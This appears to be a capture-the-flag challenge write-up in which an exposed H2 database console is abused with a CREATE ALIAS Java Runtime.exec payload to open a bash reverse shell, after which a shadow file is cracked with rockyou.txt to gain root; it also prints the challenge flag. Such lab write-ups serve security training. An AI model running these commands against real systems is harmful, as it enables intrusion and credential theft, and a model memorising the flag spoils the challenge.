

# Name
Boot It and Root It

# Description
It's the middle of the Spring, and the website is not responding. Nothing works. See if you
can find a way to run some code.

Website Link

# Difficulty
Hard

# Flag
PCTF{Rc3_P0w3R_pR0V3n}

# Hints
None

# Author Name
(Yojan) drMoscovium

# Writeup

`/h2-console`
To open the H2 database console.

```SQL
CREATE ALIAS EXECMD AS $$ String execmd(String cmd) throws java.io.IOException { Runtime.getRuntime().exec(cmd);return null; }$$;

CALL EXECMD('bash -c $@|bash 0 echo bash -i >& /dev/tcp/127.0.0.1/5555 0>&1');
```
Run this command to get a reverse shell


There is a shadow file `/home/.someuser/.../shadow`

Copy and paste and then bruteforce it using rockyou.txt

Use the password to login as root

The flag is in the home root folder.


